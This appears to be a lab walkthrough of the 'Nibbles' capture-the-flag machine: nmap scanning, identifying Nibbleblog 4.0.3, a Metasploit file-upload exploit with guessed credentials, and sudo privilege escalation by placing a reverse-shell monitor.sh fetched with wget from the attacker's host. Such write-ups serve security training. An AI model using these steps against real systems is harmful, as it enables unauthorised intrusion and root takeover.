

Walktrough - Nibbles
Linux Machine
First, start a "nmap -T4 -A -p- IPADDRESS"


We can see that there is just a port 80 and a port 22 (SSH and Web Server)
The Web Server is Apache httpd 2.4.18 and the OS is probably an Ubuntu
################################################################
Web Server
We can search for an Apache exploit with searchsploit (later):

The first thing we can do is go to the web page:


Wappalyzer:


Seriously: that is.
We can do a lot of things:
1) Use Nikto or Nessus for Vulnerability Scanning
2) Use Dirbuster to know more about directories
3) Use other tools to get more information
First thing to do in this cases: visualize the source code:


Seems that there are more web pages to discover.
Let's find out more about /nibbleblog/:


If we search more on Google, we see that is nibbleblog CMS!!


We can see if there is something on searchsploit:


Got it!
We can see that there is a Remote exploit for 4.0.3 version.
It is a .rb file, so can be found trough Metasploit modules


Searching for mode default pages of Nibblepage, we see that Nibbleblog have an Admin Page (admin.php):


We can see to do something with dirbuster...


Or just roaming.
Roaming gave us the option page of Nibbleblog, with his version (4.0.3)


Just go back to Metasploit and try some USERNAME / PASSWORD to get the exploit


The exploited uploaded a malicious php file in Plugins -: Image section.
We can see that we are not root, but we have the OS version and we can search for privilege escalation


If we pop a “shell” we can see that “sudo -l” (what command you can do as sudo without a password) is aviable


We can do a lot of things:
1) Try to privilege escalation on the OS (Ubuntu 4.4.0)
2) Try to exploit the OS (Ubuntu 4.4.0)
3) Search for Linux Script for Privilege Escalation
We will try to use:
LinEnum.sh https://github.com/rebootuser/LinEnum
linuxprivchecker https://github.com/sleventyeleven/linuxprivchecker
Netsec Linux Priv Escal https://netsec.ws/?p=309
Easiest way now to be root is ro run that file "monitor.sh" but the dir and the file are not there!!!
We can create the dirs and upload a file called “monitor.sh” as a reverse shell.
REMEMBER TO EXECUTE THE FILE FROM THE WHOLE PATH ALLOWED WITH SUDO
OR WILL NOT WORK AS SUDO!!!
With Meterpreter: “upload file.sh /path/to/upload/” command
With Linux shell: Use “python -m SimpleHTTPServer 80” on your machine
and get the file on victim Linux machine with“wget KALI_IPADDRESS:80/PATH/TO/FILE.sh”